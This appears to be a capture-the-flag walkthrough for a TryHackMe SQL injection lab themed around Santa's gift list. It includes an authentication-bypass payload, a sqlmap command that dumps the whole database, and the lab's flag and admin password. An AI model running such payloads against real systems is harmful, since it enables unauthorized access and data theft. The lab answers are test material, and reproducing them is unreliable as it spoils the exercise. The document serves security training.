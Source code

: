 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2849%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2831%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2844%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2814%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2835%29.png)

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2819%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2845%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

